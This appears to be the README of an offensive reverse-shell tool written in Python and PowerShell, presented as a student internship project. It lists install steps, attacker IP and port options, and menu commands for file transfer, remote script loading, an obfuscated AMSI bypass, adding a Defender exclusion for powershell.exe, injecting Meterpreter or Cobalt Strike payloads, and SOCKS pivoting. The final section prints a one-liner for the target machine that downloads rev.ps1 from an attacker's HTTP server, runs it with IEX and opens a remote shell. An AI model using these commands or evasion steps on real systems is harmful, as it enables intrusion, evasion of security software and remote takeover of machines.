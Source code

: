 # Introduction

A small reverse shell project that i build during my university intership.\
It is written with Python and Powershell.\
To simply install it:

1.  Clone this repo with the following code
    ```
    git clone https://github.com/Fedami/powerrevshell---rev.ps1
    ```
3.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start](https://user-images.githubusercontent.com/82824055/170969038-c81c54a0-721b-44f5-835b-86d11840211f.png)

# optional arguments:
  -h, --help            show this help message and exit
  -f smb folder for transfer and execute funciontality
                        Enter folder name [Default: root]
  -i attacker ip        Enter Attacker IP [Default: 192.168.0.114]
  -p port               listener port for reverse shell [Default: 9001]
  -wp webport           listener port for http server [Default: 8000]
  -sp smbport           listener port for smb server [Default: 445]
  -http                 Start http web server [Default: 8000]
  -smb                  Start smb web server [Default: 445]
  -k                    If port are being used it kill the process to force the exexcution.

Powerrevshell.py comes with several function accesibbile via the "menu" option.

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines, to prevent data loss, on each message, are sent support text and md5sum to know if the actual file option are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started suing impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfuscated with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload can be meterpreter or cobalt strike...\
The paylaod must be a cs file.

```
payload <payload.cs>
```

For the socks functionality this work [PowerProxy by get-get-get-get](https://github.com/get-get-get-get/PowerProxy) is being used.

### socks-start

Socks-start start a socks proxy to your machine.

```
socks-start <L-PORT> <P-PORT>
```
You can also omit L-PORT and P-Port, by default L-PORT is 8080 and P-PORT is 1080.

```
socks-start
```

### socks-stop

Socks-stop will stop any running socks on the target machine that was started before.

```
socks-stop
```

### socks

Socks will list if there is a running socks proxy.

```
socks
```

### close

Close will terminate the session by closing the powershell process, if the command exclude was used it will delete the exclusion also if it was started a socks proxy it will kill it before closing the session.

```
close
```

## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
(New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/rev.ps1') IEX; Send-Shell -i <IP> -p <ShellPort>
```
